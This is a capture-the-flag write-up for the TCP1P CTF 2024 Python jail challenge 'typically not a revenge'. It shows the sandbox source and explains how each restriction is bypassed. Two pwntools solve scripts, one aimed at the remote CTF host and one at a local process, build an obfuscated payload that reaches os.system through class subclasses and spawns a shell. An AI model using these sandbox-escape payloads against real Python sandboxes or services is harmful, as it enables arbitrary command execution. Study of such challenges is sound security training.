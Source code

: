 # TCP1P CTF 2024 typically not a revenge

```python
#!/usr/bin/env python3
code = '''
import sys
import posix

__builtins__ = sys._getframe(0).f_builtins

for _ in unsafe_builtins:
    del __builtins__[_]
unsafe_builtins.clear()

posix.__dict__.clear()
sys.modules.clear()
for _ in sys.__dict__:
    sys.__dict__[_] = None

del sys, posix
'''

unsafe_builtins = []
unsafe_chars = 'FT!"#$%&\'()*+-,/;<=>?@\\^`{|}~0123456789\t\n\v '

for _ in __builtins__.__dict__:
    if not isinstance(__builtins__.__dict__[_], type):
        unsafe_builtins.append(_)
    elif _.startswith('_'):
        unsafe_builtins.append(_)
    elif _[0].islower():
        unsafe_builtins.append(_)

user_input = input('Enter code: ').strip()
for c in set(user_input):
    if c in unsafe_chars:
        assert 0, 'Unsafe character detected!'

assert len(user_input.split('\r')) < 3
assert user_input.isascii()
exec(code + user_input, {'unsafe_builtins': unsafe_builtins}, {})
```

Requirements:

1. No numbers: Use `arr[[]is[]]` for `arr[0]`, `arr[not[]is[]]` for `arr[1]`, `arr[not[]is[]:][not[]is[]]` for `arr[2]`
2. No parens: Use `[obj[arg] for obj.__class_getitem in [function_to_call]]` to call function
3. No assignments or commas: Use `[... for a in [b] for c in [d]]`
4. No spaces: Use `\f` i.e. form feed
5. No builtins: Use `[].__class__.__base__.__subclasses__()`
6. No sys module: Use `<class 'os._wrap_close'>` to find system

Inspired by writeup by @ayapi on Discord, although we use the different attack route eventually:

```python
from pwn import *
import sys

def bool2index(n):
    if n == 0:
        return '[[]is[]]'
    elif n == 1:
        return '[not[]is[]]'
    elif n > 1:
        return ''.join('[not[]is[]:]' for x in range(n-1))+'[not[]is[]]'

payload = f'''
try:__loader__
except Exception as e:[[[[[[[[[[[[[[[[[[[[cls[sh] for cls.__class_getitem__ in [system]] for sh in [cls[h]]] for cls.__class_getitem__ in [s.__add__]] for system in [cls[cls].system]] for cls.__class_getitem__ in [cls.get_source.__globals__[k{bool2index(7)}].__loader__.create_module]] for cls.name in [cls[x]]] for cls.get_source.__globals__[k{bool2index(9)}].builtin_module_names in [[cls[x]]]] for cls.__class_getitem__ in[cls[i].__add__]] for cls.__class_getitem__ in[cls[s].__add__]] for cls.__class_getitem__ in [cls[o].__add__]] for cls.__class_getitem__ in [k{bool2index(2)}{bool2index(2)}.__add__]] for h in [k{bool2index(11)}{bool2index(4)}]] for o in [k{bool2index(1)}{bool2index(3)}]] for s in [k{bool2index(4)}{bool2index(2)}]] for i in [k{bool2index(5)}{bool2index(4)}]] for x in [k{bool2index(21)}{bool2index(10)}]] for k in [cls[cls.get_source.__globals__]]] for cls.__class_getitem__ in [list]] for list in [[].__class__]] for cls in [e.__traceback__.tb_frame.f_back.f_globals[e.name].__class__]]
'''.strip().replace('\n', '\r').replace(' ', '\f')

r = remote('ctf.tcp1p.team', 32771)
r.sendline(payload.encode())
r.interactive()
```

To call function, we need a mutable object to write to its `__class_getitem__`:

```python
for x in __builtins__.__dict__:
    try:
        __builtins__.__dict__[x].__class_getitem__ = print
        print(x)
    except:
        pass
```

Output:

```
__loader__
__spec__
ExceptionGroup
quit
exit
copyright
credits
license
help
```

Here `ExceptionGroup` is not a member of `unsafe_builtins`, so we can use it for function call.

Steps:

1. Call `[].__class__.__base__.__subclasses__()` via `ExceptionGroup.__class_getitem__`
2. Locate `<class '_sitebuiltins._Helper'>` and `<class 'os._wrap_close'>` in the subclasses using the array index mechanism of `[False]`, `[True]`, `[True:][True]` ...
3. Synthesize `"system"` and `"sh"` from `_sitebuiltins._Helper.__doc__` via `"s".__add__("y").__add__("s").__add__("t").__add__("e").__add__("m")`
4. Find `system` in `<class 'os._wrap_close'>.__init__.__globals__["system"]`
5. Call `system("sh")`

Attach script:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# assuming we are using the same Python version as remote

# assuming os_wrap_close is at 158
os_index = 158
assert subclasses.split(", ").index("<class 'os._wrap_close'>") == os_index
# assuming Helper is at 161
helper_index = 161
assert subclasses.split(", ").index("<class '_sitebuiltins._Helper'>") == helper_index

helper_doc = ().__class__.__base__.__subclasses__()[helper_index].__doc__


def get_index(index):
    # learn from @ayapi
    if index == 0:
        return "[[]is[]]"  # [False] i.e. [0]
    elif index == 1:
        return "[not[]is[]]"  # [True] i.e. [1]
    else:
        return (
            "".join(["[not[]is[]:]"] * (index - 1)) + "[not[]is[]]"
        )  # [True:][True:][True] i.e. [3]


p = process(["python3", "jail.py"])
p.sendline(
    (
        "[None "
        # [].__class__.__class__ = type
        # ExceptionGroup.__class_getitem__ = type.__subclasses__
        + "for ExceptionGroup.__class_getitem__ in [[].__class__.__class__.__subclasses__]"
        # locate helper: type.__subclasses__([].__class__.__base__))[helper_index]
        + f"for helper in [ExceptionGroup[[].__class__.__base__]{get_index(helper_index)}]"
        # locate os._wrap_close: type.__subclasses__([].__class__.__base__))[os_index]
        + f"for os in [ExceptionGroup[[].__class__.__base__]{get_index(os_index)}]"
        # read helper_doc
        + "for S in [helper.__doc__]"
        # prepare to synthesize "system" and "sh"
        + f"for s in [S{get_index(helper_doc.index("s"))}]"
        + f"for y in [S{get_index(helper_doc.index("y"))}]"
        + f"for t in [S{get_index(helper_doc.index("t"))}]"
        + f"for e in [S{get_index(helper_doc.index("e"))}]"
        + f"for m in [S{get_index(helper_doc.index("m"))}]"
        + f"for h in [S{get_index(helper_doc.index("h"))}]"
        # synthesize "system"
        + "for ExceptionGroup.__class_getitem__ in [s.__add__]"
        + f"for sy in [ExceptionGroup[y]]"
        + "for ExceptionGroup.__class_getitem__ in [sy.__add__]"
        + f"for sys in [ExceptionGroup[s]]"
        + "for ExceptionGroup.__class_getitem__ in [sys.__add__]"
        + f"for syst in [ExceptionGroup[t]]"
        + "for ExceptionGroup.__class_getitem__ in [syst.__add__]"
        + f"for syste in [ExceptionGroup[e]]"
        + "for ExceptionGroup.__class_getitem__ in [syste.__add__]"
        + f"for system in [ExceptionGroup[m]]"
        # synthesize "sh"
        + "for ExceptionGroup.__class_getitem__ in [s.__add__]"
        + f"for sh in [ExceptionGroup[h]]"
        # ExceptionGroup.__class_getitem__ = os.__init__.__globals__[system]
        + "for ExceptionGroup.__class_getitem__ in [os.__init__.__globals__[system]]"
        # call system("sh")
        + "for _ in [ExceptionGroup[sh]]"
        + "]"
    )
    .replace(" ", "\f")
    .encode()
)
p.interactive()
```
